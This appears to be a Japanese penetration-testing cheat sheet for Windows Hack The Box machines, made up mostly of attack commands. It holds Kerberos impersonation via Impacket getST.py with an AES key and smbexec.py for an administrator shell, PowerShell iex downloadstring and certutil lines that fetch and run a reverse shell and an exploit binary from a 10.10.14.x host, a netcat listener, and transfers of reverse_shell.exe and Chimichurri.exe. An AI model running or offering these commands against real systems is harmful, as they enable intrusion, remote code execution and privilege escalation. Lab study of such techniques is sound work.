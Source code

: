 最後に、攻撃側でTGTをリクエストする  

```
# -------- On Attck Box Side.
# Using getTGT from Impacket, generate a ccached TGT and used KERB5CCNAME pass the ccahe file for the requested service. 
#   If you are getting errors, "cd ~/impacket/", "python3 -m pip install ."
/home/user/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

# Set local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made to the server as the user administrator 
#  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```

### reverse shell 
```
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.2:8000/Invoke-PowerShellTcp.ps1')
certutil.exe -urlcache -split -f "http://10.10.14.2:8000/MS10-059.exe" MS10-059.exe
```



### windowsの権限昇格でよく見るリッスンコマンド  
```
rlwrap nc -nvlp 4444
```

### typeでファイルを出力できない場合
moreコマンドを使用する
```
more "<テキスト.txt>"
```

### 例外的な場所にフラグがある場合  
```
C:\Documents and Settings\<ユーザー名>\Desktop\User.txt
```

### 簡易ファイルサーバーからファイルをダウンロードする  
``` powershell -c "Invoke-WebRequest -Uri 'http://<自分のIP>:8000/reverse_shell.exe' -OutFile 'C:\Windows\Temp\reverse_shell.exe'" ```  
ちなみにpython3側では``` python3 -m http.server ```で簡易うｐ鯖を建てられる(デフォルトでポートは8000)  

### smb経由でファイルをダウンロード
攻撃者側
```
smbserver.py share .
```

やられ側  
```
> net use \\10.10.14.3\
> copy \\10.10.14.3\Chimichurri.exe .
```

### よく使うWindowsコマンド一覧  
現在のユーザーネームを表示
``` echo %usernamem% ```

ファイル名を変更する  
``` ren 元のファイル名　先のファイル名 ```

```